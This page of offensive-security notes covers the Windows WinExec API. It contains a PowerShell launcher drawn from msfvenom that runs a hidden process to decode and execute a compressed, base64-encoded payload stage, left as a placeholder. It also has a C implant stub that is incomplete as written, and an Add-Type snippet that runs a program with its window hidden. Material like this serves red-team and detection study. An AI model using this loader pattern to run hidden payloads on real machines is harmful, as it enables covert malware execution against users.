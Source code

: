 # WinAPI

## C

```c
#include <windows.h>
#include <winbase.h>

#pragma comment(lib, "kernel32.lib")

WinExec()
```

```
$ x86_64-w64-mingw32-gcc -l kernel32 -o implant.exe implant.c
```

## PowerShell

This is a de-staged PowerShell payload inside `hta-psh` in `msfvenom`. The placeholder of gzip compressed base64 encoded is the final stage of `psh-reflection` format.

```powershell
if ([IntPtr]::Size -eq 4) {
    $command = $env:windir + '\sysnative\WindowsPowerShell\v1.0\powershell.exe'
} else {
    $command = 'powershell.exe'
}

$processStartInfo = New-Object System.Diagnostics.ProcessStartInfo
$processStartInfo.FileName = $command
$processStartInfo.Arguments = '-nop -w hidden -c &' +
    '([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream(' +
    '(New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String("<base64_compressed_payload>"))),' +
    '[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))'

$processStartInfo.UseShellExecute = $false
$processStartInfo.RedirectStandardOutput = $true
$processStartInfo.WindowStyle = 'Hidden'
$processStartInfo.CreateNoWindow = $true

$process = [System.Diagnostics.Process]::Start($processStartInfo)
```

```powershell
$WinAPI = @"
 
using System;
using System.Runtime.InteropServices;
 
public class Kernel32 {
[DllImport("kernel32.dll")]
public static extern uint WinExec(string lpCmdLine, uint uCmdShow);
}
"@
 
Add-Type $WinAPI
[uint32]$SHOW_HIDE = 0
[Kernel32]::WinExec("C:\Windows\System32\calc.exe", $SHOW_HIDE)
```

---
## References

### MalAPI

- [MalAPI: WinExec](https://malapi.io/winapi/WinExec)

### Bordergate

- [Bordergate: Offensive PowerShell](https://www.bordergate.co.uk/offensive-powershell/)